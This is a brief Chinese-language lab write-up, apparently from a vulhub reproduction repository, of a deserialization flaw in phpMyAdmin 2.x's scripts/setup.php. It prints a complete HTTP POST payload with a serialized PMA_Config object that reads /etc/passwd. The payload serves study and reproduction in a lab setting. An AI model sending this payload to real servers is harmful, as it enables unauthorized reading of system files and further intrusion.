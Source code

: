 # Phpmyadmin Scripts / setup.php反序列化漏洞（WooYun-2016-199433）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->有回显读取文件

### 0x01漏洞介绍

phpmyadmin 2.x版本中存在一处反序列化漏洞，通过该漏洞，攻击者可以读取任意文件或执行任意代码

##### 			影响版本

```
phpmyadmin 2.x
```

### 0x02漏洞复现

#### payload

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

![Phpmyadmin_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Phpmyadmin_反序列化漏洞_1.jpg)

![Phpmyadmin_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Phpmyadmin_反序列化漏洞_2.jpg)

